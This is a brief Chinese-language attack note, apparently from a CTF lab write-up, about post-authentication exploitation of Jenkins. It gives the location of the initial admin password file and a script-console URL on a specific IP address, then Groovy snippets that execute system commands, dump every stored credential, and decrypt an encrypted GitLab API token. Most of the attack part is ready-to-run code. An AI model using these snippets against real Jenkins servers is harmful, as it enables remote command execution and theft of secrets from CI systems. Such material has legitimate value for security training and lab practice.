 Jenkins初始管理员密码保存位置

`C:\ProgramData\Jenkins\.jenkins\secrets\initialAdminPassword`

## 后台RCE

访问这里可以执行命令 `http://39.99.158.227:8080/manage/script`

![](F:\LocalCTF\pictures\3-3-1024x516.png)

```bash
println("whoami".execute().text)
```



执行Groovy获取相应的凭据

```bash
com.cloudbees.plugins.credentials.SystemCredentialsProvider.getInstance().getCredentials().forEach{
  it.properties.each { prop, val ->
    println(prop + ' = "' + val + '"')
  }
  println("-----------------------")
}
```

Gitlab apitoekn解密

```bash
println(hudson.util.Secret.fromString("{AQAAABAAAAAg9+7GBocqYmo0y3H+uDK9iPsvst95F5i3QO3zafrm2TC5U24QCq0zm/GEobmrmLYh}").getPlainText())
```

